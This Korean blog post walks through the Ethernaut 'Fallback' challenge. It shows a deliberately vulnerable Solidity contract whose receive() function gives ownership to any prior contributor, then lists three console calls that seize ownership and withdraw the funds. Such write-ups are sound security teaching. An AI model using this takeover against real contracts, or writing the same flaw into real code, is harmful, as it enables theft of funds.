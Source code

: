 +++
title = "Fallback"
description = "Ethernaut: Fallback"
date = 2023-03-22
toc = true

[taxonomies]
categories = ["Ethernaut"]
tags = ["Solidity", "fallback", "ethernaut"]

[extra]
math=true
+++

---


# 문제 설명

[[문제 링크](https://ethernaut.openzeppelin.com/level/1)]

<details>
<summary>전체 코드</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

</details>

- `Fallback` contract 는 자신에게 돈을 보낸 사람들의 정보를 기록합니다.
- 재밌는 부분은 주인보다 더 많이 <mark>contribute</mark> 하면 주인이 될 수도 있다는 점입니다.

---

- 문제를 해결하기 위한 조건은 아래 두 가지 입니다.
  - ***contract 의 주인이 될 것***
  - ***contract 가 갖고 있는 돈이 0원일 것***
- 쉽게 말해, <u>*contract 주인이 되어서 보관된 돈을 다 빼오는게*</u> 목표입니다.

---

- <mark>Hint</mark>로 아래 세 가지를 생각해 볼 것을 제안합니다.
  - *ether* 를 보내는 방법
  - *wei* 단위와 *ether* 단위로 서로 변환하는 방법
  - Fallback method

---

# 문제 분석

- 코드를 자세히 살펴보겠습니다.
- 우선 contract 가 생성될 때 한번 호출되는 <mark>constructor()</mark> 함수가 아래와 같습니다.

```solidity
constructor() {
  owner = msg.sender;
  contributions[msg.sender] = 1000 * (1 ether);
}
```

- 그리고, <mark>contribute()</mark> 함수가 아래와 같습니다.

```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender;
  }
}
```

- *contribute* 는 한 번 할 때, `0.001 eth` 미만의 값만 가능합니다. 
- 주인이 되기 위해선, 현재 주인의 contribute 값인 `1000 eth` 보다 값이 높아져야 합니다.
- 따라서, <mark>contribute()</mark> 를 통해 주인이 되는 것은 (가능은 하지만) 너무 어려운 길입니다..
- 다행히 주인이 되는 방법이 한가지 더 있는데, 바로 <mark>receive()</mark> 함수를 이용하는 것입니다.
> - <mark>receive()</mark> 함수에 대한 정보는 [Docs](https://docs.soliditylang.org/en/v0.8.17/contracts.html#receive-ether-function) 참조

```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```

- 아무런 function call 없이, 단순히 contract 에 돈을 보내려 하면 <mark>receive()</mark> 에 정의된 대로 동작이 일어난다고 합니다.
- 따라서, 아래와 같은 절차로 문제를 해결할 수 있음을 알 수 있습니다.
> - <mark>contribute()</mark> 로 돈을 `0.0005 eth` 보냅니다.
> - contract 로 `0.0001 eth` 를 ***그냥*** 송금하는 tx 를 보냅니다.
>   - 이 때, contract의 주인이 됩니다.
> - <mark>withdraw()</mark> 로 돈을 다 빼옵니다.

---

# 문제 풀이
- 아래 순서대로 Dev Tool의 Console 에서 입력하면 됩니다.

```js
// `0.0005 eth` 담아서 contribute 하기
contract.contribute({value: toWei("0.0005")})

// `0.0001 eth` 그냥 보내기
contract.sendTransaction({value: toWei("0.0001")})

// 돈 다 빼오기
contract.withdraw()
```

---
